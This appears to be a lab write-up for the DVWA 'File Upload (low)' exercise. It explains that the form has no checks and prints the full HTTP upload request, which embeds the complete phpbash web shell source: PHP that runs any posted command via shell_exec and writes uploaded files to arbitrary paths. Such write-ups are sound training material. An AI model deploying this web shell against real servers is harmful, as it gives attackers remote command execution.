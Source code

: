 #+TITLE: DVWA - File Upload Low
#+AUTHOR: Leonardo Tamiano

* Description
  We are given a simple file upload form. After we uploaded our file
  it gives us the path of where the server put the file.

  [[./img/low-form-upload-file.png]]

* Solution
  Since no checks are performed on the file upload form, we can simply
  upload a php web shell and execute any command we want. We can get
  the shell from

  https://github.com/Arrexel/phpbash

  After we have uploaded the file we can access it at the following URL

  http://evil/hackable/uploads/phpbash.min.php
  
  The request to upload such file is shown below

  #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 7045
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiwwoHQLz979MvcCb
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6hck904c1c5d97q223cgg24rf0; security=low
Connection: close

------WebKitFormBoundaryiwwoHQLz979MvcCb
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryiwwoHQLz979MvcCb
Content-Disposition: form-data; name="uploaded"; filename="phpbash.min.php"
Content-Type: application/x-php

<?php /* phpbash by Alexander Reid (Arrexel) */ if (ISSET($_POST['cmd'])){$output=preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1")); foreach ($output as $line){echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";}die();}else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])){$filename=$_FILES["file"]["name"]; $path=$_POST['path']; if ($path !="/"){$path .="/";}if (move_uploaded_file($_FILES["file"]["tmp_name"], $path.$filename)){echo htmlentities($filename) . " successfully uploaded to " . htmlentities($path);}else{echo "Error uploading " . htmlentities($filename);}die();}?><html> <head> <title></title> <style>html, body{max-width: 100%;}body{width: 100%; height: 100%; margin: 0; background: #000;}body, .inputtext{font-family: "Lucida Console", "Lucida Sans Typewriter", monaco, "Bitstream Vera Sans Mono", monospace; font-size: 14px; font-style: normal; font-variant: normal; font-weight: 400; line-height: 20px; overflow: hidden;}.console{width: 100%; height: 100%; margin: auto; position: absolute; color: #fff;}.output{width: auto; height: auto; position: absolute; overflow-y: scroll; top: 0; bottom: 30px; left: 5px; right: 0; line-height: 20px;}.input form{position: relative; margin-bottom: 0px;}.username{height: 30px; width: auto; padding-left: 5px; line-height: 30px; float: left;}.input{border-top: 1px solid #333333; width: 100%; height: 30px; position: absolute; bottom: 0;}.inputtext{width: auto; height: 30px; bottom: 0px; margin-bottom: 0px; background: #000; border: 0; float: left; padding-left: 8px; color: #fff;}.inputtext:focus{outline: none;}::-webkit-scrollbar{width: 12px;}::-webkit-scrollbar-track{background: #101010;}::-webkit-scrollbar-thumb{background: #303030;}</style> </head> <body> <div class="console"> <div class="output" id="output"></div><div class="input" id="input"> <form id="form" method="GET" onSubmit="sendCommand()"> <div class="username" id="username"></div><input class="inputtext" id="inputtext" type="text" name="cmd" autocomplete="off" autofocus> </form> </div></div><form id="upload" method="POST" style="display: none;"> <input type="file" name="file" id="filebrowser" onchange='uploadFile()'/> </form> <script type="text/javascript">var username=""; var hostname=""; var currentDir=""; var previousDir=""; var defaultDir=""; var commandHistory=[]; var currentCommand=0; var inputTextElement=document.getElementById('inputtext'); var inputElement=document.getElementById("input"); var outputElement=document.getElementById("output"); var usernameElement=document.getElementById("username"); var uploadFormElement=document.getElementById("upload"); var fileBrowserElement=document.getElementById("filebrowser"); getShellInfo(); function getShellInfo(){var request=new XMLHttpRequest(); request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){var parsedResponse=request.responseText.split("<br>"); username=parsedResponse[0]; hostname=parsedResponse[1]; currentDir=parsedResponse[2].replace(new RegExp("&sol;", "g"), "/"); defaultDir=currentDir; usernameElement.innerHTML="<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#"; updateInputWidth();}}; request.open("POST", "", true); request.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); request.send("cmd=whoami; hostname; pwd");}function sendCommand(){var request=new XMLHttpRequest(); var command=inputTextElement.value; var originalCommand=command; var originalDir=currentDir; var cd=false; commandHistory.push(originalCommand); switchCommand(commandHistory.length); inputTextElement.value=""; var parsedCommand=command.split(" "); if (parsedCommand[0]=="cd"){cd=true; if (parsedCommand.length==1){command="cd "+defaultDir+"; pwd";}else if (parsedCommand[1]=="-"){command="cd "+previousDir+"; pwd";}else{command="cd "+currentDir+"; "+command+"; pwd";}}else if (parsedCommand[0]=="clear"){outputElement.innerHTML=""; return false;}else if (parsedCommand[0]=="upload"){fileBrowserElement.click(); return false;}else{command="cd "+currentDir+"; " + command;}request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){if (cd){var parsedResponse=request.responseText.split("<br>"); previousDir=currentDir; currentDir=parsedResponse[0].replace(new RegExp("&sol;", "g"), "/"); outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+originalDir+"# "+originalCommand+"</div><br>"; usernameElement.innerHTML="<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#";}else{outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# "+originalCommand+"</div><br>" + request.responseText.replace(new RegExp("<br><br>$"), "<br>"); outputElement.scrollTop=outputElement.scrollHeight;}updateInputWidth();}}; request.open("POST", "", true); request.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); request.send("cmd="+encodeURIComponent(command)); return false;}function uploadFile(){var formData=new FormData(); formData.append('file', fileBrowserElement.files[0], fileBrowserElement.files[0].name); formData.append('path', currentDir); var request=new XMLHttpRequest(); request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){outputElement.innerHTML +=request.responseText+"<br>";}}; request.open("POST", "", true); request.send(formData); outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# Uploading "+fileBrowserElement.files[0].name+"...</div><br>";}function updateInputWidth(){inputTextElement.style.width=inputElement.clientWidth - usernameElement.clientWidth - 15;}document.onkeydown=checkForArrowKeys; function checkForArrowKeys(e){e=e || window.event; if (e.keyCode=='38'){previousCommand();}else if (e.keyCode=='40'){nextCommand();}}function previousCommand(){if (currentCommand !=0){switchCommand(currentCommand-1);}}function nextCommand(){if (currentCommand !=commandHistory.length){switchCommand(currentCommand+1);}}function switchCommand(newCommand){currentCommand=newCommand; if (currentCommand==commandHistory.length){inputTextElement.value="";}else{inputTextElement.value=commandHistory[currentCommand]; setTimeout(function(){inputTextElement.selectionStart=inputTextElement.selectionEnd=10000;}, 0);}}document.getElementById("form").addEventListener("submit", function(event){event.preventDefault()}); </script> </body></html>

------WebKitFormBoundaryiwwoHQLz979MvcCb
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryiwwoHQLz979MvcCb--
  #+end_example
